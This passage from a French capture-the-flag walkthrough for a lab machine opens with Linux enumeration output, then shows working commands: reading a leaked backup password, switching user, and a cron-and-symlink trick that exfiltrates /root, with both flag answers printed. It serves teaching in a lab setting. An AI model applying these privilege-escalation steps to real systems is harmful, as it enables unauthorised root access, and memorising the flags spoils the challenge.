-rw-r--r-- 1 root root 1.1K Feb 13  2019 systemd-timesyncd.service
-rw-r--r-- 1 root root  598 Feb 13  2019 systemd-tmpfiles-clean.service
-rw-r--r-- 1 root root  450 Feb 13  2019 systemd-tmpfiles-clean.timer
-rw-r--r-- 1 root root  703 Feb 13  2019 systemd-tmpfiles-setup-dev.service
-rw-r--r-- 1 root root  683 Feb 13  2019 systemd-tmpfiles-setup.service
-rw-r--r-- 1 root root  823 Feb 13  2019 systemd-udev-settle.service
-rw-r--r-- 1 root root  743 Feb 13  2019 systemd-udev-trigger.service
-rw-r--r-- 1 root root  578 Feb 13  2019 systemd-udevd-control.socket
-rw-r--r-- 1 root root  570 Feb 13  2019 systemd-udevd-kernel.socket
-rw-r--r-- 1 root root  825 Feb 13  2019 systemd-udevd.service
-rw-r--r-- 1 root root  757 Feb 13  2019 systemd-update-utmp-runlevel.service
-rw-r--r-- 1 root root  754 Feb 13  2019 systemd-update-utmp.service
-rw-r--r-- 1 root root  573 Feb 13  2019 systemd-user-sessions.service
-rw-r--r-- 1 root root  395 Feb 13  2019 time-sync.target
-rw-r--r-- 1 root root  405 Feb 13  2019 timers.target
-rw-r--r-- 1 root root  417 Feb 13  2019 umount.target
-rw-r--r-- 1 root root  392 Feb 13  2019 user.slice
-rw-r--r-- 1 root root  528 Feb 13  2019 user@.service
-rw-r--r-- 1 root root  342 Nov 15  2018 getty-static.service
-rw-r--r-- 1 root root  153 Nov 15  2018 sigpwr-container-shutdown.service
-rw-r--r-- 1 root root  175 Nov 15  2018 systemd-networkd-resolvconf-update.path
-rw-r--r-- 1 root root  715 Nov 15  2018 systemd-networkd-resolvconf-update.service
-rw-r--r-- 1 root root  238 Oct  9  2018 apt-daily-upgrade.service
-rw-r--r-- 1 root root  184 Oct  9  2018 apt-daily-upgrade.timer
-rw-r--r-- 1 root root  225 Oct  9  2018 apt-daily.service
-rw-r--r-- 1 root root  156 Oct  9  2018 apt-daily.timer
-rw-r--r-- 1 root root  618 Oct  2  2018 friendly-recovery.service
-rw-r--r-- 1 root root  172 Oct  2  2018 friendly-recovery.target
-rw-r--r-- 1 root root  445 Aug 21  2018 ssh.service
-rw-r--r-- 1 root root  216 Aug 21  2018 ssh.socket
-rw-r--r-- 1 root root  196 Aug 21  2018 ssh@.service
-rw-r--r-- 1 root root  189 May 16  2018 uuidd.service
-rw-r--r-- 1 root root  126 May 16  2018 uuidd.socket
lrwxrwxrwx 1 root root   27 May  9  2018 plymouth-log.service -> plymouth-read-write.service
lrwxrwxrwx 1 root root   21 May  9  2018 plymouth.service -> plymouth-quit.service
-rw-r--r-- 1 root root  412 May  9  2018 plymouth-halt.service
-rw-r--r-- 1 root root  426 May  9  2018 plymouth-kexec.service
-rw-r--r-- 1 root root  421 May  9  2018 plymouth-poweroff.service
-rw-r--r-- 1 root root  200 May  9  2018 plymouth-quit-wait.service
-rw-r--r-- 1 root root  194 May  9  2018 plymouth-quit.service
-rw-r--r-- 1 root root  244 May  9  2018 plymouth-read-write.service
-rw-r--r-- 1 root root  416 May  9  2018 plymouth-reboot.service
-rw-r--r-- 1 root root  532 May  9  2018 plymouth-start.service
-rw-r--r-- 1 root root  291 May  9  2018 plymouth-switch-root.service
-rw-r--r-- 1 root root  490 May  9  2018 systemd-ask-password-plymouth.path
-rw-r--r-- 1 root root  467 May  9  2018 systemd-ask-password-plymouth.service
-rw-r--r-- 1 root root  479 May  8  2018 run-vmblock-fuse.mount
-rw-r--r-- 1 root root  328 Apr 19  2018 open-vm-tools.service
-rw-r--r-- 1 root root  298 Mar 22  2018 vgauth.service
-rw-r--r-- 1 root root  420 Nov 29  2017 resolvconf.service
-rw-r--r-- 1 root root  411 Feb  3  2017 mysql.service
-rw-r--r-- 1 root root  269 Jan 31  2017 setvtrgb.service
-rw-r--r-- 1 root root  491 Jan 12  2017 dbus.service
-rw-r--r-- 1 root root  106 Jan 12  2017 dbus.socket
-rw-r--r-- 1 root root  735 Nov 30  2016 networking.service
-rw-r--r-- 1 root root  497 Nov 30  2016 ifup@.service
-rw-r--r-- 1 root root  631 Nov  3  2016 accounts-daemon.service
-rw-r--r-- 1 root root  285 Jun 16  2016 keyboard-setup.service
-rw-r--r-- 1 root root  288 Jun 16  2016 console-setup.service
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel1.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel2.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel3.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel4.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel5.target.wants
-rw-r--r-- 1 root root  251 Apr  5  2016 cron.service
-rw-r--r-- 1 root root  290 Apr  5  2016 rsyslog.service
-rw-r--r-- 1 root root  241 Mar  2  2015 ufw.service
-rw-r--r-- 1 root root  250 Feb 24  2015 ureadahead-stop.service
-rw-r--r-- 1 root root  242 Feb 24  2015 ureadahead-stop.timer
-rw-r--r-- 1 root root  401 Feb 24  2015 ureadahead.service
-rw-r--r-- 1 root root  188 Feb 24  2014 rsync.service

/lib/systemd/system/apache2.service.d:
total 4.0K
-rw-r--r-- 1 root root 42 Jun 11  2018 apache2-systemd.conf

/lib/systemd/system/halt.target.wants:
total 0
lrwxrwxrwx 1 root root 24 May  9  2018 plymouth-halt.service -> ../plymouth-halt.service

/lib/systemd/system/initrd-switch-root.target.wants:
total 0
lrwxrwxrwx 1 root root 25 May  9  2018 plymouth-start.service -> ../plymouth-start.service
lrwxrwxrwx 1 root root 31 May  9  2018 plymouth-switch-root.service -> ../plymouth-switch-root.service

/lib/systemd/system/kexec.target.wants:
total 0
lrwxrwxrwx 1 root root 25 May  9  2018 plymouth-kexec.service -> ../plymouth-kexec.service

/lib/systemd/system/multi-user.target.wants:
total 0
lrwxrwxrwx 1 root root 15 Feb  6  2020 getty.target -> ../getty.target
lrwxrwxrwx 1 root root 33 Feb  6  2020 systemd-ask-password-wall.path -> ../systemd-ask-password-wall.path
lrwxrwxrwx 1 root root 25 Feb  6  2020 systemd-logind.service -> ../systemd-logind.service
lrwxrwxrwx 1 root root 39 Feb  6  2020 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service
lrwxrwxrwx 1 root root 32 Feb  6  2020 systemd-user-sessions.service -> ../systemd-user-sessions.service
lrwxrwxrwx 1 root root 29 May  9  2018 plymouth-quit-wait.service -> ../plymouth-quit-wait.service
lrwxrwxrwx 1 root root 24 May  9  2018 plymouth-quit.service -> ../plymouth-quit.service
lrwxrwxrwx 1 root root 15 Jan 12  2017 dbus.service -> ../dbus.service

/lib/systemd/system/poweroff.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Feb  6  2020 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service
lrwxrwxrwx 1 root root 28 May  9  2018 plymouth-poweroff.service -> ../plymouth-poweroff.service

/lib/systemd/system/reboot.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Feb  6  2020 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service
lrwxrwxrwx 1 root root 26 May  9  2018 plymouth-reboot.service -> ../plymouth-reboot.service

/lib/systemd/system/sysinit.target.wants:
total 0
lrwxrwxrwx 1 root root 24 Feb  6  2020 console-setup.service -> ../console-setup.service
lrwxrwxrwx 1 root root 20 Feb  6  2020 cryptsetup.target -> ../cryptsetup.target
lrwxrwxrwx 1 root root 22 Feb  6  2020 dev-hugepages.mount -> ../dev-hugepages.mount
lrwxrwxrwx 1 root root 19 Feb  6  2020 dev-mqueue.mount -> ../dev-mqueue.mount
lrwxrwxrwx 1 root root 25 Feb  6  2020 keyboard-setup.service -> ../keyboard-setup.service
lrwxrwxrwx 1 root root 28 Feb  6  2020 kmod-static-nodes.service -> ../kmod-static-nodes.service
lrwxrwxrwx 1 root root 36 Feb  6  2020 proc-sys-fs-binfmt_misc.automount -> ../proc-sys-fs-binfmt_misc.automount
lrwxrwxrwx 1 root root 19 Feb  6  2020 setvtrgb.service -> ../setvtrgb.service
lrwxrwxrwx 1 root root 32 Feb  6  2020 sys-fs-fuse-connections.mount -> ../sys-fs-fuse-connections.mount
lrwxrwxrwx 1 root root 26 Feb  6  2020 sys-kernel-config.mount -> ../sys-kernel-config.mount
lrwxrwxrwx 1 root root 25 Feb  6  2020 sys-kernel-debug.mount -> ../sys-kernel-debug.mount
lrwxrwxrwx 1 root root 36 Feb  6  2020 systemd-ask-password-console.path -> ../systemd-ask-password-console.path
lrwxrwxrwx 1 root root 25 Feb  6  2020 systemd-binfmt.service -> ../systemd-binfmt.service
lrwxrwxrwx 1 root root 30 Feb  6  2020 systemd-hwdb-update.service -> ../systemd-hwdb-update.service
lrwxrwxrwx 1 root root 32 Feb  6  2020 systemd-journal-flush.service -> ../systemd-journal-flush.service
lrwxrwxrwx 1 root root 27 Feb  6  2020 systemd-journald.service -> ../systemd-journald.service
lrwxrwxrwx 1 root root 36 Feb  6  2020 systemd-machine-id-commit.service -> ../systemd-machine-id-commit.service
lrwxrwxrwx 1 root root 31 Feb  6  2020 systemd-modules-load.service -> ../systemd-modules-load.service
lrwxrwxrwx 1 root root 30 Feb  6  2020 systemd-random-seed.service -> ../systemd-random-seed.service
lrwxrwxrwx 1 root root 25 Feb  6  2020 systemd-sysctl.service -> ../systemd-sysctl.service
lrwxrwxrwx 1 root root 37 Feb  6  2020 systemd-tmpfiles-setup-dev.service -> ../systemd-tmpfiles-setup-dev.service
lrwxrwxrwx 1 root root 33 Feb  6  2020 systemd-tmpfiles-setup.service -> ../systemd-tmpfiles-setup.service
lrwxrwxrwx 1 root root 31 Feb  6  2020 systemd-udev-trigger.service -> ../systemd-udev-trigger.service
lrwxrwxrwx 1 root root 24 Feb  6  2020 systemd-udevd.service -> ../systemd-udevd.service
lrwxrwxrwx 1 root root 30 Feb  6  2020 systemd-update-utmp.service -> ../systemd-update-utmp.service
lrwxrwxrwx 1 root root 30 May  9  2018 plymouth-read-write.service -> ../plymouth-read-write.service
lrwxrwxrwx 1 root root 25 May  9  2018 plymouth-start.service -> ../plymouth-start.service

/lib/systemd/system/sockets.target.wants:
total 0
lrwxrwxrwx 1 root root 25 Feb  6  2020 systemd-initctl.socket -> ../systemd-initctl.socket
lrwxrwxrwx 1 root root 32 Feb  6  2020 systemd-journald-audit.socket -> ../systemd-journald-audit.socket
lrwxrwxrwx 1 root root 34 Feb  6  2020 systemd-journald-dev-log.socket -> ../systemd-journald-dev-log.socket
lrwxrwxrwx 1 root root 26 Feb  6  2020 systemd-journald.socket -> ../systemd-journald.socket
lrwxrwxrwx 1 root root 31 Feb  6  2020 systemd-udevd-control.socket -> ../systemd-udevd-control.socket
lrwxrwxrwx 1 root root 30 Feb  6  2020 systemd-udevd-kernel.socket -> ../systemd-udevd-kernel.socket
lrwxrwxrwx 1 root root 14 Jan 12  2017 dbus.socket -> ../dbus.socket

/lib/systemd/system/systemd-resolved.service.d:
total 4.0K
-rw-r--r-- 1 root root 200 Nov 15  2018 resolvconf.conf

/lib/systemd/system/systemd-timesyncd.service.d:
total 4.0K
-rw-r--r-- 1 root root 251 Nov 15  2018 disable-with-time-daemon.conf

/lib/systemd/system/timers.target.wants:
total 0
lrwxrwxrwx 1 root root 31 Feb  6  2020 systemd-tmpfiles-clean.timer -> ../systemd-tmpfiles-clean.timer

/lib/systemd/system/getty.target.wants:
total 0
lrwxrwxrwx 1 root root 23 Feb  6  2020 getty-static.service -> ../getty-static.service

/lib/systemd/system/graphical.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Feb  6  2020 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/local-fs.target.wants:
total 0
lrwxrwxrwx 1 root root 29 Feb  6  2020 systemd-remount-fs.service -> ../systemd-remount-fs.service

/lib/systemd/system/rc-local.service.d:
total 4.0K
-rw-r--r-- 1 root root 290 Nov 15  2018 debian.conf

/lib/systemd/system/rescue.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Feb  6  2020 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/resolvconf.service.wants:
total 0
lrwxrwxrwx 1 root root 42 Feb  6  2020 systemd-networkd-resolvconf-update.path -> ../systemd-networkd-resolvconf-update.path

/lib/systemd/system/sigpwr.target.wants:
total 0
lrwxrwxrwx 1 root root 36 Feb  6  2020 sigpwr-container-shutdown.service -> ../sigpwr-container-shutdown.service

/lib/systemd/system/busnames.target.wants:
total 0

/lib/systemd/system/runlevel1.target.wants:
total 0

/lib/systemd/system/runlevel2.target.wants:
total 0

/lib/systemd/system/runlevel3.target.wants:
total 0

/lib/systemd/system/runlevel4.target.wants:
total 0

/lib/systemd/system/runlevel5.target.wants:
total 0

/lib/systemd/system-sleep:
total 4.0K
-rwxr-xr-x 1 root root 92 Mar 17  2016 hdparm

/lib/systemd/system-generators:
total 692K
-rwxr-xr-x 1 root root  71K Feb 13  2019 systemd-cryptsetup-generator
-rwxr-xr-x 1 root root  63K Feb 13  2019 systemd-dbus1-generator
-rwxr-xr-x 1 root root  43K Feb 13  2019 systemd-debug-generator
-rwxr-xr-x 1 root root  83K Feb 13  2019 systemd-fstab-generator
-rwxr-xr-x 1 root root  43K Feb 13  2019 systemd-getty-generator
-rwxr-xr-x 1 root root 123K Feb 13  2019 systemd-gpt-auto-generator
-rwxr-xr-x 1 root root  39K Feb 13  2019 systemd-hibernate-resume-generator
-rwxr-xr-x 1 root root  43K Feb 13  2019 systemd-insserv-generator
-rwxr-xr-x 1 root root  35K Feb 13  2019 systemd-rc-local-generator
-rwxr-xr-x 1 root root  31K Feb 13  2019 systemd-system-update-generator
-rwxr-xr-x 1 root root 103K Feb 13  2019 systemd-sysv-generator
-rwxr-xr-x 1 root root  287 Oct  2  2018 friendly-recovery

/lib/systemd/system-preset:
total 4.0K
-rw-r--r-- 1 root root 869 Feb 13  2019 90-systemd.preset

/lib/systemd/network:
total 12K
-rw-r--r-- 1 root root 404 Feb 13  2019 80-container-host0.network
-rw-r--r-- 1 root root 482 Feb 13  2019 80-container-ve.network
-rw-r--r-- 1 root root  80 Feb 13  2019 99-default.link

/lib/systemd/system-shutdown:
total 0


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.16


[-] MYSQL version:
mysql  Ver 14.14 Distrib 5.7.29, for Linux (x86_64) using  EditLine wrapper


[-] Apache version:
Server version: Apache/2.4.18 (Ubuntu)
Server built:   2019-10-08T13:31:25


[-] Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


[-] Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 filter_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php7_module (shared)
 rewrite_module (shared)
 setenvif_module (shared)
 status_module (shared)


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


[-] Installed compilers:
ii  libllvm6.0:amd64                    1:6.0-1ubuntu2~16.04.1                     amd64        Modular compiler and toolchain technologies, runtime library
ii  libxkbcommon0:amd64                 0.5.0-1ubuntu2.1                           amd64        library interface to the XKB compiler - shared library


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1522 Feb  6  2020 /etc/passwd
-rw-r--r-- 1 root root 759 Feb  6  2020 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1013 Feb  6  2020 /etc/shadow


[-] SUID files:
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount


[-] SGID files:
-rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
-rwxr-sr-x 1 root shadow 62336 May 16  2017 /usr/bin/chage
-rwxr-sr-x 1 root ssh 358624 Mar  4  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 27368 May 16  2018 /usr/bin/wall
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwxr-sr-x 1 root mlocate 39520 Nov 17  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd


[+] Files with POSIX capabilities set:
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 144 Feb  6  2020 /etc/kernel-img.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 350 Feb  6  2020 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 338 Nov 17  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 10368 Oct  2  2015 /etc/sensors3.conf
-rw-r--r-- 1 root root 280 Jun 19  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 14867 Apr 11  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 6488 Feb  6  2020 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 2084 Sep  5  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 703 May  5  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 3028 Feb 26  2019 /etc/adduser.conf


[-] Location and Permissions (if accessible) of .bak file(s):
-rw-r--r-- 1 root root 3020 Feb  6  2020 /etc/apt/sources.bak
-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Feb 26  2019 .
drwxr-xr-x 12 root root 4096 Feb  6  2020 ..


[-] Anything juicy in the Dockerfile:
-rwxrwxrwx 1 root root 639 Jul 10  2019 /var/www/html/Dockerfile


### SCAN COMPLETE ####################################
```

Dans les résulats dans Location and Permissions on voit un fichier \/opt\/.password.bak.   

```bash
$ cat /opt/.password.bak 
andres backup password
UQfsdCB7aAP6
```

**Compromise this machine and obtain user.txt**

On a des indentifiants.  

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cmess:/tmp$ su andre
su andre
Password: UQfsdCB7aAP6
andre@cmess:/tmp$ ls /home/andre
ls /home/andre
backup  user.txt
andre@cmess:/tmp$ cat /home/andre/user.txt
cat /home/andre/user.txt
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```

On se connect sous le nom d'andre.   
On lit le fichier user.txt et on a notre flag.   

La réponse est : thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}     

**Escalate your privileges and obtain root.txt**

```bash
andre@cmess:/tmp$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Dans crontab on voit que la sauvegarde andre est sauvegardée avec les droits root.    

```bash
andre@cmess:/tmp$ cd /home/andre
cd /home/andre

andre@cmess:~$ rm -rf ./backup 
rm -rf ./backup

andre@cmess:~$ ln -s /root/ backup
ln -s /root/ backup
```

On éfface le répertoire backup d'andrer.  
On crée un lien dynamique qui pointe vers les répertoire root.  
On va avoir une sauvegarde du contenu de root. 

```bash
andre@cmess:~$ cd /tmp
andre@cmess:/tmp$ tar xf andre_backup.tar.gz
tar xf andre_backup.tar.gz
cat root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```

On extrait le fichier andre_backup.tar.gz.   
On lit le fichier root.txt et on a le flag.   

La réponse est : thm{9f85b7fdeb2cf96985bf5761a93546a2}    